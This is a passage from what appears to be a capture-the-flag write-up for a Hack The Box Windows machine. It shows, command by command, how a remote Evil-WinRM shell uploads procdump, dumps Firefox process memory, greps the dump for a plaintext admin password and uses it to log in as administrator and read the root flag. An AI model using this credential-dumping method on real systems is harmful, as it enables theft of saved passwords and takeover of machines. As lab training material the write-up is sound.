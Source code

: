 ## GET CREDS FROM FIREFOX
Using `procdump` from `sysinternals` tool to run against one of the process of `firefox`.
```
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump64.exe
Info: Uploading procdump64.exe to C:\Users\Chase\Documents\procdump64.exe


Data: 566472 bytes of 566472 bytes copied

Info: Upload successful!
```

```
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64 -ma 740 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[20:49:10] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_230129_204910.dmp
[20:49:10] Dump 1 writing: Estimated dump file size is 288 MB.
[20:49:10] Dump 1 complete: 288 MB written in 0.4 seconds
[20:49:10] Dump count reached.
```
Downloading the dump.
```
*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_230129_204910.dmp
```

Strings can be used to grep password from the dump file, and we got login usernamd and password from it.
```
$strings firefox.exe_230129_134546.dmp | grep password=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
            label-password="&fillPasswordMenu.label;"
            accesskey-password="&fillPasswordMenu.accesskey;"
            label-password="&fillPasswordMenu.label;"
            accesskey-password="&fillPasswordMenu.accesskey;"
```

and we got shell as administrator
```
$evil-winrm -i 10.10.10.149 -u administrator  -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>

*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
caf30de94a7ba38168831b756dee6dea

```
